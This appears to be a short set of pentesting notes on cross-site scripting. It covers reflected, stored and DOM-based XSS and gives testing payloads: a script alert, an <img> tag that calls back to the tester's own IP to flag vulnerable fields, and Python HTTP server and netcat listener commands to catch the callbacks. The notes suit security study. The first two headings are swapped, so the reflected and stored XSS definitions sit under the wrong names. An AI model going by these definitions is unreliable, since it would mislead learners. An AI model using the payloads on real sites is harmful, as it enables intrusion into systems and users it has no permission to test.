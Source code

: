 # Fundamentals

### Reflected XSS

In a persistent XSS attack, the malicious script is stored on the target server (e.g., in a database, message forum, visitor log, or comment field) and is executed in the browser of any user who views the affected page.

### Stored XSS

Reflected XSS attacks occur when an attacker sends a malicious script as part of a request (e.g., in a URL or form submission) that is immediately echoed by the web server in the response and executed in the victim's browser.

```js
// Test reference
<script>alert(123)</script>
```

### DOM Based XSS

DOM based XSS attacks involve modifying the DOM environment in the victim's browser, often without any interaction with the server.

### Testing for outbound connections

```js
// Test reference
<img src="http://<OUR_IP>/<PARAMETER>"></img>
```

Where `<PARAMETER>` is replaced with an identifier for whatever input we are currently fuzzing in order to help identify which field turned out to be vulnerable in our request.

**Note:** We can also capture our request in burp to fuzz the `User-Agent` and `Referer` headers before sending it off.

Before sending we also need to setup a Python HTTP server

```bash
python3 -m http.server 80
```

This will allow us to capture multiple requests in the case multiple parameters are vulnerable and we need to receive multiple requests.

Once we have an individual request we want to enumerate, we can setup a netcat listener to view the headers associated with it.

```bash
nc -lvnp 80
```

If dealing with stored XSS, if no request is made but an error image is still generated, we can still attempt to proceed using filter bypass techniques.